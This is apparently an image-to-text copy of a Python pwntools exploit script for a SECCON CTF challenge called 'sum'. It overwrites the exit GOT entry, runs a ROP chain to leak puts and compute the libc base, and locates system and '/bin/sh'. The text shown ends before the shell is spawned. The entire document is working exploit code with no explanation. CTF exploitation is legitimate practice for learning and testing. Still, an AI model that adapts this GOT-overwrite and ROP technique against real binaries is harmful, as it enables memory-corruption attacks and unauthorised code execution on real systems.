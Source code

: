 ```python
#!/usr/bin/env python2

from pwn import *

BINARY = './sum'
HOST, PORT = 'sum.chal.seccon.jp', 10001

elf = ELF(BINARY)
libc = ELF('./libc-2.27.so')

def start():
    if not args.REMOTE:
        print "LOCAL PROCESS"
        return process(BINARY)
    else:
        print "REMOTE PROCESS"
        return remote(HOST, PORT)

def debug(breakpoints):
    script = "handle SIGALRM ignore\n"
    for bp in breakpoints:
        script += "b *0x%x\n"%(bp)
    gdb.attach(p,gdbscript=script)

def overwrite(src, dest):
    p.recv()
    p.sendline('{} -1 -1 1 1 {}'.format(dest - src, src))

context.terminal = ['tmux', 'new-window']

p = start()
if args.GDB:
    debug([0x40099d]) # 

printf_got = elf.got['printf']
exit_got = elf.got['exit']
puts_got = elf.got['puts']
main = elf.symbols['main']
puts = elf.plt['puts']
garbage = 0x601080
pop_rdi = 0x400a43
ret = 0x4005ee

# overwrite exit_got with pop rdi; ret
p.recv()
p.sendline('{} {} {} -1 +1 {}'.format(main, -main, pop_rdi - exit_got, exit_got))

# ROP to get libc leak
p.recv()
p.sendline('{} {} {} {} {} {}'.format(ret, pop_rdi, puts_got, puts, main, garbage))

# Remote binary behaves differently for whatever reason
if args.REMOTE:
    p.recvuntil('0\n')

leak = u64(p.recvline().strip('\n').ljust(8, '\x00'))
libc.address = leak - libc.symbols['puts']
system = libc.symbols['system']
bin_sh = next(libc.search('/bin/sh'))

log.info('Leak: ' + hex(leak))
log.info('Libc base: ' + hex(libc.address))
log.info('system: ' + hex(system))
```
